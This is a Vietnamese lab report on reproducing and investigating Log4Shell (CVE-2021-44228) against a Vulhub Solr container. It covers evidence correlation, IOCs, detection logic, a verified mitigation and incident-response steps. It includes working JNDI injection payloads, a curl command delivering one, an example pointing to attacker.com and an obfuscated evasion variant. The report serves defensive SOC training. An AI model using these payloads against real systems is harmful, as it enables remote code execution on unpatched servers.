


# Log4Shell Investigation Report (CVE-2021-44228)
Tác giả: Nguyễn Thịnh Hưng
MITRE ATT&CK: T1190 — Exploit Public-Facing Application 
Môi trường: Lab cô lập, Docker, Vulhub (log4j/CVE-2021-44228)

---

## 1. Executive Summary

Báo cáo trình bày quá trình tái hiện, khai thác và điều tra lỗ hổng Log4Shell (CVE-2021-44228) — lỗ hổng Remote Code Execution với điểm CVSS tuyệt đối 10.0. Trong môi trường lab cô lập chạy Apache Solr 8.11.0 (Log4j 2.14.1), tác giả đã dựng môi trường bằng Docker, thực hiện khai thác JNDI injection, thu thập và đối chiếu bằng chứng từ ba nguồn độc lập (log ứng dụng, listener callback, network traffic), dựng timeline điều tra, và phân tích theo góc nhìn một SOC Analyst: chiến lược phát hiện, IOC, logic detection, và khung xử lý sự cố. Toàn bộ quá trình debug và khắc phục lỗi kỹ thuật phát sinh được ghi lại trung thực như một phần của quy trình điều tra thực tế.

---

## 2. Introduction

### 2.1. Motivation

Log4Shell là một trong những lỗ hổng có tác động lớn nhất trong lịch sử an ninh mạng hiện đại, do mức độ phổ biến của Log4j trong hệ sinh thái Java và tính đơn giản đáng kinh ngạc của phương thức khai thác. Đây là case study tiêu biểu để hiểu mối liên hệ giữa lập trình, logging, và network security — ba mảng kiến thức cốt lõi của một SOC Analyst.

### 2.2. Objectives

- Hiểu và trình bày được cơ chế kỹ thuật của lỗ hổng.
- Tự tay tái hiện khai thác trong môi trường an toàn, cô lập.
- Rèn kỹ năng thu thập, đối chiếu bằng chứng từ nhiều nguồn dữ liệu.
- Phân tích sự cố theo đúng tư duy và khung làm việc của SOC Tier 1.
- Đề xuất biện pháp khắc phục và (nếu điều kiện cho phép) kiểm chứng hiệu quả.

### 2.3. Scope

Lab thực hiện hoàn toàn trong môi trường cô lập trên máy cá nhân (Windows, Docker Desktop), không kết nối hay ảnh hưởng hệ thống bên ngoài. Máy tấn công và nạn nhân là cùng một máy vật lý, dùng địa chỉ loopback (`127.0.0.1`) mô phỏng kết nối callback. Báo cáo không bao gồm việc triển khai RCE hoàn chỉnh (chưa dựng LDAP/HTTP server giả phục vụ payload Java) — phạm vi dừng ở mức chứng minh JNDI callback thành công.

---

## 3. Technical Background

### 3.1. Log4j

Apache Log4j là thư viện ghi log mã nguồn mở phổ biến bậc nhất trong hệ sinh thái Java, có mặt trong vô số ứng dụng doanh nghiệp.

### 3.2. CVE-2021-44228

Công bố 12/2021, ảnh hưởng Log4j từ 2.0-beta9 đến 2.14.1, CVSS 10.0/10.0. Mức độ nghiêm trọng tối đa do: khai thác không cần xác thực, phạm vi ảnh hưởng cực lớn (Log4j bị nhúng gián tiếp trong hàng nghìn phần mềm), và hậu quả tối đa (RCE — thực thi mã tùy ý).

### 3.3. JNDI

Java Naming and Directory Interface (JNDI) là API cho phép ứng dụng Java tra cứu tài nguyên (đối tượng, dữ liệu cấu hình) từ một dịch vụ thư mục, qua nhiều giao thức như LDAP, RMI, DNS. Log4j hỗ trợ cú pháp 
`${jndi:...}` trong tính năng Lookups, cho phép Log4j tự động thực hiện một truy vấn JNDI ngay khi ghi log một chuỗi có chứa cú pháp này.

### 3.4. Attack Chain

Chuỗi tấn công bắt đầu khi kẻ tấn công gửi một request có chứa payload dạng `${jndi:ldap://attacker.com:1389/Exploit}`, thường được đặt trong một trường dữ liệu phổ biến như header User-Agent hoặc một tham số bất kỳ của request. Khi ứng dụng ghi log giá trị này — một hành động hoàn toàn bình thường mà hầu hết ứng dụng web đều thực hiện — Log4j phát hiện cú pháp `${...}` và tự động thực hiện một JNDI Lookup. Quá trình này khiến Log4j chủ động kết nối tới `attacker.com:1389` qua giao thức LDAP. Trong một kịch bản tấn công thật, server của kẻ tấn công sẽ trả về một tham chiếu tới class Java độc hại, và Log4j sẽ tải về rồi khởi tạo (tức thực thi) class đó ngay trên máy nạn nhân, dẫn đến Remote Code Execution — kẻ tấn công giành được khả năng chạy mã tùy ý trên hệ thống bị khai thác.

### 3.5. MITRE ATT&CK

Kỹ thuật này được xếp vào T1190 — Exploit Public-Facing Application, vì nó khai thác một ứng dụng web công khai (Solr admin interface) để giành quyền thực thi mã. Vì toàn bộ chuỗi tấn công bắt đầu từ một dòng log, bất kỳ trường dữ liệu nào ứng dụng ghi log (header, tham số, cookie...) đều có thể là vector tấn công — đây là lý do bề mặt tấn công của lỗ hổng này đặc biệt rộng.

---

## 4. Lab Environment

### 4.1. Architecture

```
Máy cá nhân (Windows + Docker Desktop)
│
├── Container: Apache Solr 8.11.0 (ứng dụng dính lỗ hổng, Log4j 2.14.1)
│     └── Expose port 8983
│
├── Script: listener.py (mô phỏng máy chủ kẻ tấn công, hứng callback JNDI)
│     └── Lắng nghe port 1389
│
└── Wireshark (bắt traffic trên interface loopback)
```

### 4.2. Tools

| Công cụ                 | Vai trò                                         |
| ----------------------- | ----------------------------------------------- |
| Docker + Docker Compose | Dựng môi trường ứng dụng dính lỗ hổng (Vulhub)  |
| `curl`                  | Gửi HTTP request chứa payload khai thác         |
| Python (socket)         | Script tự viết mô phỏng server hứng callback    |
| Wireshark               | Bắt và phân tích network traffic                |
| PowerShell              | Môi trường dòng lệnh thực hiện toàn bộ thao tác |

### 4.3. Network Configuration

| Thành phần             | Địa chỉ/Port           | Vai trò                                                               |
| ---------------------- | ---------------------- | --------------------------------------------------------------------- |
| Solr (nạn nhân)        | `127.0.0.1:8983`       | Ứng dụng web dính lỗ hổng, nhận request từ "kẻ tấn công"              |
| Listener (kẻ tấn công) | `127.0.0.1:1389`       | Hứng kết nối callback từ JNDI Lookup                                  |
| Interface capture      | Npcap Loopback Adapter | Do toàn bộ traffic diễn ra trên cùng một máy (`127.0.0.1`),           |
|                        |                        | cần bắt trên interface loopback thay vì card mạng vật lý thông thường |
---

## 5. Exploitation

### 5.1. Initial Request

Payload được gửi qua tham số bất kỳ của endpoint `/solr/admin/cores`, dựa trên quan sát Solr ghi log toàn bộ tham số của mọi request nhận được:

```
curl.exe -g 'http://localhost:8983/solr/admin/cores?foo=${jndi:ldap://127.0.0.1:1389/a}'
```

### 5.2. Payload

```
${jndi:ldap://127.0.0.1:1389/a}
```

Cấu trúc gồm 3 phần: cú pháp kích hoạt Lookup (`${...}`), giao thức JNDI con được dùng (`jndi:ldap`), và địa chỉ đích (`127.0.0.1:1389/a`).

### 5.3. JNDI Lookup

Khi Solr ghi log tham số `foo` chứa chuỗi trên, Log4j nhận diện cú pháp `${jndi:...}` và thực hiện tra cứu JNDI qua giao thức LDAP tới địa chỉ chỉ định — đây chính là hành động được quan sát thấy trong Wireshark (gói SYN gửi từ Solr tới listener).

### 5.4. Callback

Listener Python xác nhận nhận được kết nối, chứng minh Log4j đã thực sự thực thi lookup (không chỉ ghi log dạng text thông thường).

### 5.5. Troubleshooting

Quá trình không thành công ngay lần đầu — hai vấn đề kỹ thuật được xác định và khắc phục:

Vấn đề 1 — URL Globbing của `curl`: Lần đầu, log ứng dụng ghi payload thiếu dấu ngoặc nhọn mở (`foo=$jndi:ldap://...`). Nguyên nhân: `curl` mặc định coi `{ }` trong URL là cú pháp globbing (duyệt danh sách URL), tự động xử lý sai payload. Khắc phục bằng cờ `-g` (tắt globbing).

Vấn đề 2 — Đồng bộ timing của listener: Script chỉ `accept()` đúng một lần rồi tự thoát. Có thời điểm payload được gửi trong khi listener chưa khởi động lại sau lần nhận trước, khiến kết nối không được ghi nhận dù log ứng dụng đã thể hiện request đúng. Khắc phục bằng cách đảm bảo khởi động lại listener ngay trước mỗi lần gửi payload.

---

## 6. Evidence Collection

### 6.1. Application Logs

```
solr-1 | 2026-09-30 04:56:07.430 INFO (qtp3540494-23) [ ] o.a.s.s.HttpSolrCall
[admin] webapp=null path=/admin/cores params={foo=${jndi:ldap://127.0.0.1:1389/a}} status=0 QTime=5
```

[Log Docker của Solr ghi nhận payload hợp lệ](../evidence/screenshots/02-docker-log-success.png) 

### 6.2. Network Traffic

Filter Wireshark: `tcp.port==1389`

| No.  | Time (s)   | Source    | Destination | Info                                  |
| ---- | ---------- | --------- | ----------- | ------------------------------------- |
| 2168 | 496.809911 | 127.0.0.1 | 127.0.0.1   | 49283 → 1389 \[SYN\] Seq=0            |
| 2169 | 496.809986 | 127.0.0.1 | 127.0.0.1   | 1389 → 49283 \[SYN, ACK\] Seq=0 Ack=1 |
| 2170 | 496.810025 | 127.0.0.1 | 127.0.0.1   | 49283 → 1389 \[ACK\] Seq=1 Ack=1      |
| 2171 | 496.810245 | 127.0.0.1 | 127.0.0.1   | 49283 → 1389 \[FIN, ACK\] Seq=1 Ack=1 |
| 2172 | 496.810266 | 127.0.0.1 | 127.0.0.1   | 1389 → 49283 \[ACK\] Seq=1 Ack=2      |

[Wireshark TCP handshake tại cổng 1389](../evidence/screenshots/04-wireshark-handshake.png) 

### 6.3. Listener Logs

```
Dang cho ket noi tren port 1389...
KET NOI TU: ('127.0.0.1', 49283)
```

[Python listener nhận kết nối callback](../evidence/screenshots/03-python-listener.png)

### 6.4. Cross-validation

Cổng nguồn `49283` xuất hiện đồng nhất ở cả ba nguồn độc lập — đây là cơ sở khẳng định cả ba bằng chứng mô tả cùng một sự kiện, không phải các quan sát trùng hợp ngẫu nhiên. Đây là nguyên tắc đối chiếu chéo (cross-validation) cốt lõi trong mọi điều tra SOC thực tế: không kết luận dựa trên một nguồn bằng chứng duy nhất.

---

## 7. SOC Investigation

### 7.1. Detection Strategy

Một chiến lược phát hiện hiệu quả cho Log4Shell nên kết hợp nhiều lớp, vì không lớp nào riêng lẻ đủ tin cậy:

- Lớp log ứng dụng: quét log tìm chuỗi đặc trưng `${jndi:` và các biến thể obfuscate.
- Lớp network: giám sát kết nối outbound bất thường tới các giao thức LDAP/RMI (cổng 389, 1389, 1099...) từ các máy chủ ứng dụng — các máy này thường không có lý do hợp lệ để tự khởi tạo kết nối LDAP ra ngoài.

### 7.2. IOC Analysis

| Loại IOC              | Giá trị                                    | Ghi chú                                                                                 |
| --------------------- | ------------------------------------------ | --------------------------------------------------------------------------------------- |
| Payload pattern       | `${jndi:ldap://...}`                       | Kẻ tấn công thực tế thường obfuscate (ví dụ `${${lower:j}ndi:...}`) để né rule đơn giản |
| Giao thức callback    | LDAP                                       | Phổ biến nhất; RMI và DNS cũng được dùng trong thực tế                                  |
| Cổng callback         | 1389 (lab); 389/1389/1099 phổ biến thực tế |                                                                                         |
| Endpoint bị khai thác | `/solr/admin/cores` (tham số `foo`)        | Minh họa bất kỳ tham số nào được log đều có thể là vector                               |

### 7.3. Timeline

| Thời điểm (UTC) | Giờ VN (UTC+7) | Sự kiện                                                                |
| --------------- | -------------- | ---------------------------------------------------------------------- |
| \~04:50:38      | \~11:50:38     | Lần thử đầu — lỗi cú pháp do URL globbing, không kích hoạt lookup      |
| \~04:56:07      | \~11:56:07     | Solr ghi log request chứa payload hợp lệ                               |
| \~04:56:07      | \~11:56:07     | Log4j thực hiện JNDI Lookup, mở TCP từ cổng 49283 tới `127.0.0.1:1389` |
| \~04:56:07      | \~11:56:07     | Listener xác nhận nhận kết nối                                         |
| \~04:56:07      | \~11:56:07     | Wireshark ghi nhận handshake đầy đủ, sau đó đóng kết nối               |

### 7.4. Attack vs Evidence Mapping

| Bước trong Attack Chain (Chương 3.4) | Bằng chứng tương ứng            |
| ------------------------------------ | ------------------------------- |
| Request chứa payload được gửi        | Application Log (6.1)           |
| Log4j thực hiện JNDI Lookup          | Network Traffic — gói SYN (6.2) |
| Kết nối tới server kẻ tấn công       | Listener Log (6.3)              |
| (RCE hoàn chỉnh — ngoài phạm vi)     | Không có bằng chứng             |

### 7.5. False Positives

Một hệ thống phát hiện dựa trên pattern `${jndi:` có thể gặp false positive trong các trường hợp:

- Công cụ quét bảo mật hợp pháp (vulnerability scanner) tự gửi payload tương tự để kiểm tra hệ thống có dính lỗ hổng hay không — đây là hoạt động được phép, không phải tấn công thật.
- Dữ liệu người dùng nhập vào tình cờ chứa chuỗi giống cú pháp (hiếm nhưng không loại trừ hoàn toàn, ví dụ trong nội dung thảo luận kỹ thuật về chính lỗ hổng này).

Một analyst cần đối chiếu thêm: nguồn gốc IP có nằm trong danh sách scanner nội bộ đã biết không, tần suất gửi, và quan trọng nhất — có xảy ra outbound connection thật sự hay không (chương 7.1), vì chỉ log chứa chuỗi không đồng nghĩa với khai thác thành công.

### 7.6. Investigation Workflow

Quy trình điều tra áp dụng trong báo cáo này, có thể tổng quát hóa cho các sự cố tương tự:

1. Phát hiện dấu hiệu ban đầu (ở đây: tự thực hiện khai thác để quan sát).
2. Thu thập bằng chứng từ nhiều nguồn độc lập (log, network, endpoint).
3. Đối chiếu chéo (cross-validation) để xác nhận các nguồn mô tả cùng một sự kiện.
4. Dựng timeline theo đúng trình tự thời gian.
5. Xác định IOC và đánh giá mức độ ảnh hưởng.
6. Đề xuất biện pháp khắc phục và kiểm chứng hiệu quả.

---

## 8. Detection Engineering

Logic phát hiện cốt lõi cho lỗ hổng này là tìm chuỗi ${jndi: (và các biến thể obfuscate phổ biến như ${${lower:j}ndi:...}) trong bất kỳ trường dữ liệu nào được ghi log hoặc truyền qua HTTP request — đây chính là payload pattern đã xác định ở Chương 7.2 (IOC Analysis). Việc viết rule phát hiện cụ thể (dạng SIEM hoặc network IDS) và tích hợp vào một hệ thống giám sát thật là hướng phát triển tiếp theo, chưa nằm trong phạm vi báo cáo này (xem Chương 11 — Limitations).

---

## 9. Remediation

### 9.1. Patch

Vá lên Log4j 2.17.1 trở lên — bản chính thức đã tắt JNDI Lookup theo mặc định.

### 9.2. Temporary Mitigation

Nếu chưa vá kịp, thiết lập biến môi trường hoặc system property `log4j2.formatMsgNoLookups=true` (tương đương biến môi trường `LOG4J_FORMAT_MSG_NO_LOOKUPS=true`) để tắt tính năng Lookup ở tầng cấu hình.

### 9.3. Before/After Validation

Trạng thái: Đã thực hiện và kiểm chứng. Biện pháp khắc phục được thiết lập bằng cách thêm biến môi trường vào `docker-compose.yml` của lab:

```yaml
   environment:
    - LOG4J_FORMAT_MSG_NO_LOOKUPS=true
```

Sau khi khởi động lại container (`docker compose up -d`), quy trình khai thác ở Chương 5 được lặp lại với đúng payload cũ, không thay đổi bất kỳ chi tiết nào, để đảm bảo so sánh công bằng.

Kết quả đối chiếu:

| Type                      | Trước khi vá                          | Sau khi vá                                                                                      |
| ------------------------- | ------------------------------------- | ----------------------------------------------------------------------------------------------- |
| Log Solr                  | Ghi `${jndi:ldap://127.0.0.1:1389/a}` | Ghi y hệt chuỗi đó (`2026-10-03 11:12:05.607 ... params={foo=${jndi:ldap://127.0.0.1:1389/a}}`) |
| Log4j có thực thi lookup? | Có                                    | Không                                                                                           |
| Listener                  | Nhận kết nối `KET NOI TU: (...)`      | **`KHONG CO KET NOI SAU 15 GIAY`** (timeout 15 giây)                                            |

 
 

Phân tích: Kết quả xác nhận chính xác cơ chế đã trình bày ở Chương 9.2 — biến môi trường `LOG4J_FORMAT_MSG_NO_LOOKUPS` chỉ vô hiệu hóa việc thực thi Lookup, không ảnh hưởng đến việc ghi log. Đây là điểm kỹ thuật quan trọng: ứng dụng vẫn ghi lại payload nguyên văn (hữu ích cho việc phát hiện/điều tra sau này), nhưng Log4j không còn diễn giải và thực thi nội dung bên trong `${...}` nữa, khiến chuỗi tấn công bị chặn đứng ngay tại bước đầu tiên.

---

## 10. Incident Response

> Chương này áp dụng khung Incident Response (dựa trên mô hình NIST/SANS) vào kịch bản của lab, mang tính minh họa tư duy xử lý sự cố. Vì đây là lỗ hổng do chính tác giả chủ động khai thác trong môi trường tự tạo (không phải một sự cố thật xảy ra ngoài ý muốn), các bước Containment/Eradication/Recovery dưới đây là đề xuất lý thuyết sẽ áp dụng nếu đây là sự cố thật trong môi trường production, không phải hành động đã thực thi.

### 10.1. Identification

Đã thực hiện thực tế (xem Chương 6–7): phát hiện và xác nhận lỗ hổng tồn tại thông qua log, network traffic, và listener callback.

### 10.2. Containment (đề xuất)

Nếu đây là sự cố thật: cô lập host bị ảnh hưởng khỏi mạng (ngắt kết nối hoặc đưa vào VLAN cách ly), chặn outbound traffic tới các cổng LDAP/RMI không xác định tại firewall biên.

### 10.3. Eradication (đề xuất)

Gỡ bỏ/thay thế phiên bản Log4j dính lỗi trên host bị ảnh hưởng, rà soát toàn bộ hệ thống khác trong tổ chức có nhúng cùng thư viện (dùng công cụ quét như `log4j-scanner` hoặc kiểm kê phần mềm — SBOM).

### 10.4. Recovery (đề xuất)

Khôi phục dịch vụ sau khi xác nhận đã vá, theo dõi tăng cường trong giai đoạn đầu sau khi đưa hệ thống trở lại hoạt động.

### 10.5. Monitoring (đề xuất)

Tiếp tục giám sát các IOC liên quan (Chương 7.2) trong khoảng thời gian dài hơn sau sự cố, vì kẻ tấn công có thể đã cài cắm persistence trước khi bị phát hiện.

---

## 11. Limitations

- Lab dừng ở mức chứng minh callback thành công , chưa triển khai RCE hoàn chỉnh.
- Môi trường tấn công và nạn nhân là cùng một máy (loopback), chưa mô phỏng đầy đủ kịch bản tấn công qua mạng diện rộng.
- Chưa tích hợp SIEM thật để minh họa alert tự động — hướng phát triển ưu tiên tiếp theo.
- Chương 10 mang tính lý thuyết/minh họa khung làm việc, không phải tường thuật hành động thực tế.

## 12. Lessons Learned

- Thiết kế tính năng tiện lợi có thể trở thành rủi ro bảo mật nghiêm trọng: tính năng Lookups của Log4j được thiết kế để tiện lợi (tự động nội suy giá trị khi ghi log), nhưng chính sự tự động đó không phân biệt được giữa dữ liệu tin cậy và dữ liệu từ người dùng — bài học áp dụng được cho mọi hệ thống xử lý input động.
- Một dòng log có thể là cả bằng chứng lẫn vector tấn công : log vừa là nơi lỗ hổng được kích hoạt, vừa là nguồn bằng chứng chính để phát hiện nó.
- Công cụ quen thuộc có thể có hành vi ẩn gây ảnh hưởng đến kết quả — lỗi URL globbing của `curl` là ví dụ thực tế cho thấy cần hiểu rõ công cụ mình dùng, không chỉ chạy lệnh theo mẫu có sẵn.
- Đối chiếu nhiều nguồn bằng chứng độc lập là nguyên tắc không thể bỏ qua — nếu chỉ dựa vào một nguồn (ví dụ chỉ log ứng dụng), rất khó phân biệt một payload chỉ được ghi log (có thể false positive) với một payload thực sự được thực thi.

---

## 13. Conclusion

Lab đã chứng minh thành công cơ chế hoạt động của Log4Shell từ góc độ điều tra: dựng môi trường, khai thác, thu thập và đối chiếu bằng chứng từ ba nguồn độc lập, dựng timeline, và phân tích theo đúng khung tư duy SOC (chiến lược phát hiện, IOC, detection logic, khung xử lý sự cố). Quá trình khắc phục các lỗi kỹ thuật phát sinh được ghi lại như một phần không thể tách rời của điều tra thực tế, phản ánh đúng bản chất công việc phân tích an ninh mạng — không phải lúc nào cũng diễn ra suôn sẻ theo hướng dẫn có sẵn.

---

## 14. References

1. Apache Software Foundation. "CVE-2021-44228 Security Advisory." *Apache Logging Services.*
2. MITRE ATT&CK. "T1190 — Exploit Public-Facing Application." *attack.mitre.org.*
3. Vulhub Project. "log4j/CVE-2021-44228." *github.com/vulhub/vulhub.*
4. NIST. "Computer Security Incident Handling Guide (SP 800-61)." Dùng làm khung tham chiếu cho Chương 10.
5. Professor Messer. "Security Controls — SY0-701." *professormesser.com.*

---

## 15. Appendices

### A. Screenshots

- Ảnh 1 — [Solr Admin Dashboard xác nhận ứng dụng sống](../evidence/screenshots/01-solr-dashboard.png)
- Ảnh 2 — [Log Docker của Solr ghi nhận payload hợp lệ](../evidence/screenshots/02-docker-log-success.png)
- Ảnh 3 — [Cửa sổ Python listener nhận kết nối callback](../evidence/screenshots/03-python-listener.png)
- Ảnh 4 — [Wireshark — TCP handshake tại cổng 1389](../evidence/screenshots/04-wireshark-handshake.png)
- Ảnh 5 — [Log sau khi vá, payload vẫn được ghi nhận dưới dạng text](../evidence/screenshots/05-after-patch-log.png)
- Ảnh 6 — [Listener sau khi vá, không nhận được kết nối](../evidence/screenshots/06-after-patch-listener.png)

### B. PCAP

- [File capture Wireshark gốc](../evidence/log4shell-exploit.pcapng)

### C. Logs

- [Toàn bộ log Docker xuất ra trong quá trình thực hiện](../evidence/solr-full-log.txt)

### D. Source Code

- [Script Python dùng làm công cụ hứng callback](../lab-setup/listener.py)

### E. Commands

```
docker compose up -d
docker compose logs -f
docker compose logs | Select-String "foo"
curl.exe -g 'http://localhost:8983/solr/admin/cores?foo=${jndi:ldap://127.0.0.1:1389/a}'
python listener.py
```